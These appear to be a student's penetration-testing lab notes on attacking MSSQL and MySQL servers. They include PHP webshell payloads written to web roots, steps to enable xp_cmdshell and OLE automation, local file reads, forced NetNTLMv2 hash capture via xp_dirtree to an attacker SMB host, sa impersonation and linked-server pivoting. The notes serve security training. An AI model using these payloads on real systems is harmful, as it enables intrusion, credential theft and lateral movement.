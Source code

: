 # MSSQL and MySQL

## Authentication
- MSSQL
	- Windows Authentication mode
		- Windows/AD auehtnticates
	- Mixed mode
		- Either Windows/AD or SQL Server's own login authenticates
- MySQL
	- Different authentication methods, eg. username password, Windows authentication..

## Protocol Specific Attacks
- MySQL - Connecting
	- `mysql -u julio -pPassword -h 10.129.20.13`
- MSSQL - Connecting 
	- From Windows (local): 
		- `sqlcmd -S SRVCM -U juilo -P 'Password' -y 30 -Y 30`
	- From Linux:
		- `sqsh 10.129.203.7 -U julio -P 'Password' -h`
		- `mssqlclient.py -p 1433 julio@10.129.203.7`
			- or `impacket-mssqlclient`
				- If using windows authentication, need to specify `-windows-auth`
					- eg. if using NTLM hash found below
	- If don't specify domain or hostname, will assume SQL authentication and authenticate against users created in SQL server
	- If define domain or hostname, will use Windows authentication
		- If targetting local account, can use `SERVERNAME\\accountname` or `.\\accountname
		- eg. `sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h

## Default Databases
- MySQL
	- mysql - system database, store info required by MySQL server
	- information_schema - access to database metadata
	- performance_schema - for monitoring MySql Server execution
	- sys - objects that help DBAs and developers interpret data collected by Performance Schema
- MSSQL default system schemas/databases:
	- master - keeps the information for an instance of SQL Server.
	- msdb - used by SQL Server Agent.
	- model - a template database copied for each new database.
	- resource - a read-only database that keeps system objects visible in every database on the server in sys schema.
	- tempdb - keeps temporary objects for SQL queries.

# SQL Syntax
- `SHOW DATABASES`
- **If use sqlcmd, need add `GO` after query
- `USE htbusers;`
- `SHOW TABLES`
- `SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES`
- `SELECT * FROM users`

## Executing Commands
- MySql
	- Can achieve command execution if can write to location in file system that can execute our commands
	- eg. if MySQL operates on PHP based web server, can attempt to write to file in webserver directory
		- `SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';`
			- Then attempt to browse to that location and execute commands
	- To do this, need the `secure_file_priv` variable to be empty, or have the value of the directory that we want to write to
		- `show variables like "secure_file_priv";`
- MSSQL
	- Has extended stored procedures called `xp_cmdshell`
		- Can execute system commands with SQL
		- Disabled by default, can be enabled by usign Policy-Based Management or executing sp_configure
			- `EXECUTE sp_configure 'show advanced options', 1`
			- `RECONFIGURE`
			- `EXECUTE sp_configue 'xp_cmdshell', 1`
			- `RECONFIGURE`
		- `xp_cmdshell 'whoami`
	- Can similarly write files
		- First need to enable Ole Automation Procedures which requires admin privileges
			- `sp_configure 'show advanced options', 1`
			- `RECONFIGURE`
			- `sp_configure 'Ole Automation Procedures', 1
			- `RECONFIGURE
			- Again, if using sqlcmd, need add GO after each line
			- Then write the file
```c
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

## Read local files
- MSSQL - by default allows read on any file in the oS to which account has read access
	- `SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`
- MySQL - no file read by default, only if correct settings and with appropriate privileges
	- `select LOAD_FILE("/etc/passwd");`

## Capturing MSSQL Service Hash
- Can steal MSSQL service account hash using `xp_supbdirs` or `xp_dirtree` undocumented stored procedures
	- Uses SMB to retrieve a list of child directories under a specified parent directory from the file system
	- When use one of these stored procedures and point it to our SMB server, directory listening functionality forces server to authenticate and send the NetNTLMv2 hash of service account running the SQL server
		- Reminder that this is NOT the NT hash! Cannot use it for PtH. Only for relay or cracking.This is essentially the plaintext password
1. Run responder or ipmacket
	- `sudo responder -I tun0`
	- or `sudo impacket-smbserver share ./ -smb2support`
 2. XP_DIRTREE Hash Stealing
	- `EXEC master..xp_dirtree '\\10.10.110.17\share\'`
 3. XP_SUBDIRS Hash stealing
	- `EXEC master..xp_subdirs '\\10.10.110.17\share\'`
4. Crack with hashcat then login with the hash found
	- `impacket-mssqlclient <user>@IP -windows-auth`
	- then type in the password

## Impersonate existing users with MSSQL
- Special IMPERSONATE permission - allows existing user to take on permissions of another user/login until context is reset or sesison ends
- First, identify which users we can impersonate
```c
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```
- Will see a bunch of users that we can impersonate, say one includes 'SA'
- Then verify if current user has sysadmin role:
```c
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
1 means sysadmin, 0 means not member of sysadmin
- Impersonating the 'SA' user 
```c
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```

- Recommended to run EXECUTE AS LOGIN within master DB, because all users have accesss to that 
	- `USE master` BEFOREHAND

## Communicate with other databases with MSSQL
- MSSQL has configuration option called link server
- May be able to move laterally to that database server

1. Identify linked Servers in MSSQL
	-  `SELECT srvname, isremote FROM sysservers
	- Results: `isremote` - 1 means remote server, 0 means linked server
		- Target 0
2. Identify user used for connection and its privileges
	- EXECUTE used to send pass-through commands to linked servers
	- `EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]`


**KIV : SQL syntax**